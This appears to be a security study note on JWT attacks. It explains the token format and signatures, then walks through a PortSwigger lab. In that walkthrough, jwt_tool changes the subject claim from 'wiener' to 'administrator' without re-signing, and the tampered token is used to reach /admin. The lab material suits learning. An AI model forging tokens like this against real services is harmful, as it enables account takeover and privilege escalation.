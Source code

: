 # JWT Attacks

## References

- [JWT Attacks - PortSwigger](https://portswigger.net/web-security/jwt)
- [JWT Vulnerabilities - HackTricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
- [Pentest JWT Token (Playlist) - AulasHack](https://odysee.com/$/playlist/1b7dc3665c5cf1c05af4d0e56fd30d94031af8ba)

## Labs

- [JWT Vulnerabilities Labs - PortSwigger](https://portswigger.net/web-security/all-labs#jwt)

## Useful Tools

- [jwt.io](https://jwt.io/)
- [jwt_tool - Github](https://github.com/ticarpi/jwt_tool)

## Resume

###  What are JWT Tokens?

​            JSON web tokens (JWTs) are a standardized format for sending cryptographically signed JSON data between systems. They can  theoretically contain any kind of data, but are most commonly used to  send information ("claims") about users as part of authentication,  session handling, and access control mechanisms.        

​            Unlike with classic session tokens, all of the data that a  server needs is stored client-side within the JWT itself. This makes  JWTs a popular choice for highly distributed websites where users need  to interact seamlessly with multiple back-end servers.        

### JWT format

​            A JWT consists of 3 parts: a header, a payload, and a signature. These are each separated by a dot, as shown in the following example:        

```
eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTY0ODAzNzE2NCwibmFtZSI6IkNhcmxvcyBNb250b3lhIiwic3ViIjoiY2FybG9zIiwicm9sZSI6ImJsb2dfYXV0aG9yIiwiZW1haWwiOiJjYXJsb3NAY2FybG9zLW1vbnRveWEubmV0IiwiaWF0IjoxNTE2MjM5MDIyfQ.SYZBPIBg2CRjXAJ8vCER0LA_ENjII1JakvNQoP-Hw6GG1zfl4JyngsZReIfqRvIAEi5L4HV0q7_9qGhQZvy9ZdxEJbwTxRs_6Lb-fZTDpW6lKYNdMyjw45_alSCZ1fypsMWz_2mTpQzil0lOtps5Ei_z7mM7M8gCwe_AGpI53JxduQOaB5HkT5gVrv9cKu9CsW5MS6ZbqYXpGyOG5ehoxqm8DL5tFYaW3lB50ELxi0KsuTKEbD0t5BCl0aCR2MBJWAbN-xeLwEenaqBiwPVvKixYleeDQiBEIylFdNNIMviKRgXiYuAvMziVPbwSgkZVHeEdF5MQP1Oe2Spac-6IfA
```

​            The header and payload parts of a JWT are just  base64url-encoded JSON objects. The header contains metadata about the  token itself, while the payload contains the actual "claims" about the  user. For example, you can decode the payload from the token above to  reveal the following claims:        

```json
{
  "iss": "portswigger",
  "exp": 1648037164,
  "name": "Carlos Montoya",
  "sub": "carlos",
  "role": "blog_author",
  "email": "carlos@carlos-montoya.net",
  "iat": 1516239022
}
```

​            In most cases, this data can be easily read or modified by  anyone with access to the token. Therefore, the security of any  JWT-based mechanism is heavily reliant on the cryptographic signature.        

### JWT signature

​            The server that issues the token typically generates the  signature by hashing the header and payload. In some cases, they also  encrypt the resulting hash. Either way, this process involves a secret  signing key. This mechanism provides a way for servers to verify that  none of the data within the token has been tampered with since it was  issued:        

- As the signature is directly derived from the rest  of the token, changing a single byte of the header or payload results in a mismatched signature.                
- Without knowing the server's secret signing key, it  shouldn't be possible to generate the correct signature for a given  header or payload.                

### What are JWT attacks and what are the impacts?

​            JWT attacks involve a user sending modified JWTs to the  server in order to achieve a malicious goal. Typically, this goal is to  bypass authentication and access controls by impersonating another user  who has already been authenticated.        

The impact of JWT attacks is usually severe. If an attacker is able to  create their own valid tokens with arbitrary values, they may be able to escalate their own privileges or impersonate other users, taking full  control of their accounts. 

## Vulnerabilities

### JWT authentication bypass via unverified signature

**Resources:**

- **Lab:** https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature
- **AulasHack Video Resolution:** https://odysee.com/@AulasHack:4/jwt-authentication-bypass-via-unverified:6?lid=1b7dc3665c5cf1c05af4d0e56fd30d94031af8ba

**Explanation:** 

​            By design, servers don't usually store any information about the JWTs that they issue. Instead, each token is an entirely  self-contained entity. This has several advantages, but also introduces a fundamental problem - the server doesn't actually know anything about  the original contents of the token, or even what the original signature  was. Therefore, if the server doesn't verify the signature properly,  there's nothing to stop an attacker from making arbitrary changes to the rest of the token.        

​            For example, consider a JWT containing the following claims:        

```json
{    
	"username": "carlos",    
	"isAdmin": false 
}
```

​            If the server identifies the session based on this `username`, modifying its value might enable an attacker to impersonate other logged-in users. Similarly, if the `isAdmin` value is used for access control, this could provide a simple vector for privilege escalation.        

​            In the first couple of labs, you'll see some examples of how these vulnerabilities might look in real-world applications.       

**Resolution:**

1. Login at **wiener** account, collect and analyse the JWT Tokent at **jwt.io** or **jwt_tool**.

```bash
└─$ python3 jwt_tool.py eyJraWQiOiI3YTQ4NjQ2YS0yMTgwLTRkOGUtYTA1YS00MjJhOTlkOWFjNzEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNDQyNTc4Nywic3ViIjoid2llbmVyIn0.cGCHsE9vb_hFeQQ47dlwUqBZd6jlzjoyGMKxFVGvKLh3WKG42j0JiPCDJU5be97aMdzFXcw2FfWwQdBMWbeSVBouqy4Hep5FeI9K5XfyA-tOpSYkbLZlyslRsnyOmb1VokHOrhJpHNdWSUK94fvQMuyucw832oJmi1Z7voKkjHCPpyIywHy8MCOYz0xzB7BNteZviV776Seo_OA5hJT4y2r-Iur7hkyHXhVlU4ORWx62hQb546aIdzRuQDbh1zbzvOmiVlySuwZgNfT_56Uh2i-JTo18AjadGrTD0ZIIG2aGnjAD0ZZkaK6LvDaI6lR_NyJteJJQR54ffC17KoibJg   

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 
                                                                                                                                                                                             
=====================
Decoded Token Values:                                                                                                                                                                        
=====================                                                                                                                                                                        

Token header values:                                                                                                                                                                         
[+] kid = "7a48646a-2180-4d8e-a05a-422a99d9ac71"
[+] alg = "RS256"

Token payload values:                                                                                                                                                                        
[+] iss = "portswigger"
[+] exp = 1714425787    ==> TIMESTAMP = 2024-04-29 18:23:07 (UTC)
[+] sub = "wiener"

----------------------                                                                                                                                                                       
JWT common timestamps:                                                                                                                                                                       
iat = IssuedAt                                                                                                                                                                               
exp = Expires                                                                                                                                                                                
nbf = NotBefore                                                                                                                                                                              
----------------------
```

2. Tamper "wiener" value to the "administrator" value using **jwt_tool**.

```bash
─$ python3 jwt_tool.py eyJraWQiOiI3YTQ4NjQ2YS0yMTgwLTRkOGUtYTA1YS00MjJhOTlkOWFjNzEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNDQyNDQzMiwic3ViIjoid2llbmVyIn0.E_zbMx5P-9T3BbNH8klnEapTlbYpRcYe88NJURL-RM96BSYdnxTZJYhwmcN6lFND_Gj8SijMtBVqWBOmyCE6Mo1Qd58qRwE_tgmBNRAQNexXE1FwjQIBiof0rS_sdoP9D8oTqvTNHy80Wn1YLaB6pdah1yQnl7gTU8mfTolD0dyxVjwUyPjm3OJ7AbPQQYSfPVj93p2VXevDBTSikLphB7_OiiE8ywJSLCAu7_qX2TK0c31RVLjGrPlw-f5Ec3MYEjIY_GAJHMXflgmhCW83Z6AjDmhiClhVEfZ8v1bPQ0m1dUegMHTV7_RwaPanrBmai7EtB_P_OjocF8jwCUu2fg -T

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 
                                                                                                                                                                                             

====================================================================                                                                                                                         
This option allows you to tamper with the header, contents and                                                                                                                               
signature of the JWT.                                                                                                                                                                        
====================================================================                                                                                                                         

Token header values:                                                                                                                                                                         
[1] kid = "7a48646a-2180-4d8e-a05a-422a99d9ac71"
[2] alg = "RS256"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:                                                                                                                                                                
(or 0 to Continue)                                                                                                                                                                           
> 0

Token payload values:                                                                                                                                                                        
[1] iss = "portswigger"
[2] exp = 1714424432    ==> TIMESTAMP = 2024-04-29 18:00:32 (UTC)
[3] sub = "wiener"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:                                                                                                                                                                
(or 0 to Continue)                                                                                                                                                                           
> 4
Please enter new Key and hit ENTER
> sub
Please enter new value for sub and hit ENTER
> administrator
[1] iss = "portswigger"
[2] exp = 1714424432    ==> TIMESTAMP = 2024-04-29 18:00:32 (UTC)
[3] sub = "administrator"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:                                                                                                                                                                
(or 0 to Continue)                                                                                                                                                                           
> 0
Signature unchanged - no signing method specified (-S or -X)
jwttool_084845f9c257880a92a7af8fae9224c1 - Tampered token:
[+] eyJraWQiOiI3YTQ4NjQ2YS0yMTgwLTRkOGUtYTA1YS00MjJhOTlkOWFjNzEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNDQyNDQzMiwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.E_zbMx5P-9T3BbNH8klnEapTlbYpRcYe88NJURL-RM96BSYdnxTZJYhwmcN6lFND_Gj8SijMtBVqWBOmyCE6Mo1Qd58qRwE_tgmBNRAQNexXE1FwjQIBiof0rS_sdoP9D8oTqvTNHy80Wn1YLaB6pdah1yQnl7gTU8mfTolD0dyxVjwUyPjm3OJ7AbPQQYSfPVj93p2VXevDBTSikLphB7_OiiE8ywJSLCAu7_qX2TK0c31RVLjGrPlw-f5Ec3MYEjIY_GAJHMXflgmhCW83Z6AjDmhiClhVEfZ8v1bPQ0m1dUegMHTV7_RwaPanrBmai7EtB_P_OjocF8jwCUu2fg
```

3. Use Tampered JWT to access "/admin" page.

<img align="center" src="screenshots/jwt_vulns/unverified_signature/not_tampered.png">

<img align="center" src="screenshots/jwt_vulns/unverified_signature/tampered.png">